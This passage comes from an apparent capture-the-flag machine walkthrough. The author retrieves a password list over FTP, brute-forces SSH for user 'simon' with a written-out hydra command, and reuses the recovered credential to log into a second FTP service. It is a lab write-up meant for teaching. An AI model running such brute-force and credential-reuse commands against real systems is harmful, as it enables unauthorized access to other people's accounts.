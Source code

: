 ```c
229 Entering Extended Passive Mode (|||29686|)
150 Opening BINARY mode data connection for mynotes.txt (153 bytes)
100% |************************************************************************************************************************************************|   153      770.17 KiB/s    00:00 ETA
226 Transfer complete
153 bytes received in 00:00 (0.22 KiB/s)
ftp> 

```

We can see that there is some user `simon` and there is a file `mynotes.txt`
Let's see what's inside it after downloading it:
```
cat mynotes.txt 
234987123948729384293
+23358093845098
ThatsMyBigDog
Rock!ng#May
Puuuuuh7823328
8Ns8j1b!23hs4921smHzwn
237oHs71ohls18H127!!9skaP
238u1xjn1923nZGSb261Bs81

```

Seems to be some passwords. I instantly started brute-forcing ssh service with `simon` username and `mynotes.txt` file as passwords using hydra:
```c
hydra -l simon -P mynotes.txt -u 10.129.208.17 ssh
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-08 01:35:14
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 8 tasks per 1 server, overall 8 tasks, 8 login tries (l:1/p:8), ~1 try per task
[DATA] attacking ssh://10.129.208.17:22/
[22][ssh] host: 10.129.208.17   login: simon   password: 8Ns8j1b!23hs4921smHzwn
1 of 1 target successfully completed, 1 valid password found
```

We got creds now:
```
login:simon   
password:8Ns8j1b!23hs4921smHzwn
```

I decided to try them to 2121 ftp service and managed to log in as `simon` with the his password:
```c
ftp 10.129.208.17 -p 2121
Connected to 10.129.208.17.
220 ProFTPD Server (InlaneFTP) [10.129.208.17]
Name (10.129.208.17:r3so1v3): simon
331 Password required for simon
Password: 
230 User simon logged in
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||28675|)
150 Opening ASCII mode data connection for file list
drwxr-xr-x   5 simon    simon        4096 Apr 20  2022 .
drwxr-xr-x   3 root     root         4096 Apr 18  2022 ..
-rw-------   1 simon    simon           1 Apr 20  2022 .bash_history
-rw-r--r--   1 simon    simon         220 Feb 25  2020 .bash_logout
```